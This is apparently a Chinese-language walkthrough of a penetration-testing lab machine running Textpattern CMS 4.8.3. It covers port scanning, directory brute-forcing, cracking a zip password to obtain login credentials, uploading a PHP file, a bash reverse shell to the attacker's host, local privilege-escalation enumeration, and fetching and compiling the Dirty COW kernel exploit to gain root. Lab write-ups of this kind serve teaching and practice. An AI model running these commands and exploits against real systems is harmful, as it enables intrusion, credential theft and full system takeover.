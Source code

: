 ### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.120
```

```
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:8B:74:69 (Oracle VirtualBox virtual NIC)
```

### web渗透

`robots.txt`

![image-20241020160643438](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020160643438.png)

告诉我们进行目录爆破时，添加`zip`后缀，还有一个路径`/textpattern/textpattern`

```bash
gobuster dir -u http://192.168.56.120 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
```

![image-20241020160959695](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020160959695.png)

发现压缩包有密码

```bash
┌──(root㉿kali)-[/tmp]
└─# fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt spammer.zip


PASSWORD FOUND!!!!: pw == myspace4
```

或者利用`john`进行破解

```bash
zip2john spammer.zip > hash
```

```
john hash -w=/usr/share/wordlists/rockyou.txt
```

得到一对凭据`mayer:lionheart`，可以登录网站了

发现是一个cms，知道了版本号

`Textpattern CMS  (v4.8.3)`

![image-20241020161519629](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020161519629.png)

看了一下，发现就是文件上传，自己利用一下吧

![image-20241020161624471](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020161624471.png)

没有过滤，直接上传

路径是：`http://192.168.56.120/textpattern/files/2.php`

### 系统立足点

反弹shell即可

```
/bin/bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

### 尝试提权

```
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null
getcap -r 2>/dev/null 
find / -writable 2>/dev/null 
uname -a
```

最后发现内核版本是

![image-20241020161953436](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020161953436.png)

搜索找到exp

https://www.exploit-db.com/exploits/40839

#### 脏牛提权

```bash
wget https://www.exploit-db.com/download/40839
```

![image-20241020162438445](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020162438445.png)

上传到靶机，进行编译

```
gcc -o exp exp.c -lpthread -lcrypt
```

![image-20241020162233141](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020162233141.png)

把root用户改成`firefart`，密码自己输入

![image-20241020162402669](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241020162402669.png)